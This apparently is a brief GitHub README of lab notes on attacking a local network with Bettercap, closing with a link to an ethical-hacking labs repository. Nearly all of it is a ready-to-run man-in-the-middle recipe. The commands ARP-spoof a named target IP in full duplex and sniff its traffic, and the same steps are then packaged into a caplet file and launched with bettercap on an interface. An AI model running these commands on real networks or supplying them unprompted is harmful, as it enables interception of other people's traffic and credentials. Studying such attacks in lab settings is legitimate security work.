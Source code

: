 # wifi_router-MMTK

    
    
 net.probe on
 set arp.spoof.fullduplex true 
 set arp.spoof.targets 10.0.2.5
 arp.spoof on
 set net.sniff.local true
 net.sniff on


# Automate BetterCAP using Caplets
To be more efficient on your work, you can automate the modules setup part by creating a simple Caplet file(file.cap) and adding the commands per line.

## Create the caplet:

touch spoof.cap

## Add the commands and save it :

nano spoof.cap

   
   
   net.probe on
   
   set arp.spoof.fullduplex true 
   
   set arp.spoof.targets 192.168.0.131
   
   arp.spoof on
   
   set net.sniff.local true
   
   net.sniff on


As you can see is the same commands in order that you used previously.

## Start the Bettercap using the spoof Caplet that you created:

    bettercap -iface eth0 -caplet spoof.cap



# hacking lave
https://github.com/Samsar4/Ethical-Hacking-Labs/tree/master
